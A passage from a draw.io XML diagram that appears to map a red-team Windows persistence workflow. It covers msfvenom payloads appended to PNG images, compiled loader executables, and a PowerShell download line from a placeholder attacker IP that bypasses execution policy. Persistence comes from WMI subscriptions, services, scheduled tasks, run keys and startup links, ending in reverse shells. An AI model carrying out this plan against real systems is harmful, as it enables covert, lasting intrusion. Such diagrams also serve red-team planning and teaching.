        <mxCell id="Op0RA1QyIyzGp62vVNNJ-19" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-14" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-20" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-14" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-22" value="" style="group" parent="Op0RA1QyIyzGp62vVNNJ-14" vertex="1" connectable="0">
          <mxGeometry x="70" y="40" width="140" height="150" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-15" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-22" vertex="1">
          <mxGeometry width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-16" value="Pers_High.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-15" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-17" value="9201.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-15" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-18" value="9202.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-15" vertex="1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-21" value="9203.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-22" vertex="1">
          <mxGeometry y="120" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-20" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="Op0RA1QyIyzGp62vVNNJ-23" target="Op0RA1QyIyzGp62vVNNJ-32" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-23" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="1470" width="1160" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-24" value="Pers_High.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-25" value="9201.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-26" value="9202.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-27" value="9201.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-28" value="9202.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="700" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-29" value="9203.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-31" value="Scheduled_Task_Template.xml" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="960" y="50" width="180" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-30" value="9203.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="1300" y="1520" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-32" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="1643" width="960" height="382" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-33" value="Download staged binaries and png&#39;s to High IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-34" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_High.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-35" value="Execute Pers_High.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-36" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-33" target="Op0RA1QyIyzGp62vVNNJ-35" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-4" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-37" target="HUqxwyjqBnD8ekD1RPLn-0" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-37" value="Create WMI Event Filter, Subscription, and Binding (Every min.)" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="470" y="100" width="130" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="Op0RA1QyIyzGp62vVNNJ-37" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="415.0" y="155.0" as="sourcePoint" />
            <mxPoint x="505" y="225" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-39" value="Create New Service&lt;br&gt;(On-Demand)" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="470" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-40" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="Op0RA1QyIyzGp62vVNNJ-39" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-44" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-39" target="HUqxwyjqBnD8ekD1RPLn-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-0" target="Op0RA1QyIyzGp62vVNNJ-41" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-0" value="Execute 9201.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="638" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-7" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-6" target="Op0RA1QyIyzGp62vVNNJ-43" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-6" value="Execute 9202.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="638" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-8" value="" style="group" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1" connectable="0">
          <mxGeometry x="806" y="162" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-43" value="Read Payload From 9202.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-8" vertex="1">
          <mxGeometry y="40" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-46" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-8" vertex="1">
          <mxGeometry width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-9" value="" style="group" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1" connectable="0">
          <mxGeometry x="806" y="60" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-41" value="Read Payload From 9201.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-9" vertex="1">
          <mxGeometry y="40" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-45" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-9" vertex="1">
          <mxGeometry width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-13" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-10" target="HUqxwyjqBnD8ekD1RPLn-12" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-10" value="Import Scheduled_Task_Template.xml&lt;br&gt;(Every 2 min.)" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="470" y="242" width="180" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="HUqxwyjqBnD8ekD1RPLn-10" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="320" y="170.0" as="sourcePoint" />
            <mxPoint x="480" y="205" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-12" target="HUqxwyjqBnD8ekD1RPLn-15" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-12" value="Execute 9203.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="680" y="282" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-14" value="" style="group" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1" connectable="0">
          <mxGeometry x="830" y="282" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-15" value="Read Payload From 9203.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-14" vertex="1">
          <mxGeometry y="40" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-16" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-14" vertex="1">
          <mxGeometry width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="dP6RbfBJEISetV5Z3pFI-0" value="Create Registry Run Key" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="840" y="760" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="dP6RbfBJEISetV5Z3pFI-1" value="Create Startup Folder Link" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="840" y="861" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P7n5YuG6-lRFGP6FSJ7v-0" target="dP6RbfBJEISetV5Z3pFI-0" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="dP6RbfBJEISetV5Z3pFI-4" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="dP6RbfBJEISetV5Z3pFI-0" target="P6aCfQ930mBBJoiv-hOj-1" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="790" y="768" as="sourcePoint" />
            <mxPoint x="840" y="745" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="dP6RbfBJEISetV5Z3pFI-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P7n5YuG6-lRFGP6FSJ7v-0" target="dP6RbfBJEISetV5Z3pFI-1" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="790" y="768" as="sourcePoint" />
            <mxPoint x="840" y="745" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="dP6RbfBJEISetV5Z3pFI-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="dP6RbfBJEISetV5Z3pFI-1" target="kM2FHF2urjBJhsgAb-iy-3" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="960" y="745.059" as="sourcePoint" />
            <mxPoint x="1010" y="783" as="targetPoint" />
          </mxGeometry>
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>

